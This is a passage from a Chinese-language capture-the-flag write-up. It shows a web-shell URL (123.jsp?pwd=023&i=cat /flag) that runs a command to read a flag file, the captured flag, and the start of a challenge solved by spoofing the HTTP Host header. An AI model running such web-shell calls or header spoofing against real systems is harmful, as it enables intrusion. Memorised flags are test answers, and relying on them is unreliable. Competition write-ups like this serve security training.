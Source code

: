 得到

```
bin
dev
etc
flag
home
lib
media
mnt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

随即

```
view-source:http://83bb4e6ae2834a409a8fc6186638304ae4cfd02e70c340eb.game.ichunqiu.com/784a0215-d519-405d-ab2d-d6bbd03d3ceb/123.jsp?pwd=023&amp;i=cat /flag
```

得到flag

```
flag`{`bba8cad9-7c5f-4d16-ab4b-a052fcc01129`}`
```



### <a class="reference-link" name="shopping%20log"></a>shopping log

拿到题目

```
http://123.59.141.153/
```

访问发现

```
&lt;!-- Site is tmvb.com --&gt;
```

一开始并不知道要干什么，后来发现是要我们改host<br>
抓包后更改http header

```
GET / HTTP/1.1
Host: www.tmvb.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8
If-None-Match: "19-56ae7b5677840"
If-Modified-Since: Sat, 28 Apr 2018 12:24:57 GMT
Connection: close
```
